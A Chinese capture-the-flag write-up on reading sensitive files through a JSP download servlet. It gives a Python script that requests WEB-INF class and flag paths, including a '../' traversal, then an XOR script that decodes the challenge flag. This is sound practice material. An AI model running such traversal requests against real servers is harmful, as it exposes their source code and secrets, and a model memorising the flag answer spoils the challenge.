 ### JSP 网站敏感文件遍历读取

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68387fcb58cb8da5c81b1728.png)

打开网页

![](https://pic1.imgdb.cn/item/68387fe758cb8da5c81b17e4.png)

点击提示，用 JSP 写的网站，给的是一个下载接口，需要 POST 请求

![](https://pic1.imgdb.cn/item/68387ff958cb8da5c81b185a.png)

编写脚本遍历一些常见的敏感文件

```python
import requests

def test_download(filename):
    url = "http://challenge.qsnctf.com:31930/DownloadServlet"
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Accept-Charset': 'UTF-8'
    }
    data = {'filename': filename}
    
    response = requests.post(url, data=data, headers=headers)
    
    print(f"Testing {filename}")
    print(f"Status: {response.status_code}")
    print(f"Content-Type: {response.headers.get('Content-Type', 'Not Set')}")

    # 如果是 class 文件，保存下来
    if response.headers.get('Content-Type') == 'application/octet-stream':
        filename_only = filename.split('/')[-1]
        with open(filename_only, 'wb') as f:
            f.write(response.content)
        print(f"Saved to {filename_only}")
    
    print("-" * 50)

# 测试路径
paths = [
    "WEB-INF/classes/com/ctf/file/DownloadServlet.class",
    "WEB-INF/classes/com/ctf/flag/FlagManager.class",
    "WEB-INF/classes/com/ctf/flag/flag.txt",
    "WEB-INF/classes/flag.txt",
    "WEB-INF/classes/flag",
    "../classes/com/ctf/flag/FlagManager.class"
]

for path in paths:
    test_download(path)
```

反编译下载的 `FlagManager` 文件

![](https://pic1.imgdb.cn/item/6838818f58cb8da5c81b2372.png)

编写脚本解密

```python
key = [110, 107, 185, 183, 183, 186, 103, 185, 99, 105, 105, 187, 105, 99, 102, 184, 185, 103, 99, 108, 186, 107, 187, 99, 183, 109, 105, 184, 102, 106, 106, 188, 109, 186, 111, 188]

flag = []
for k in key:
    c = (k ^ 48) - ord('&')
    flag.append(chr(c))

print(''.join(flag))	# SQCTF{85caad1c-33e3-0bc1-6d5e-a73b044f7d9f}
```

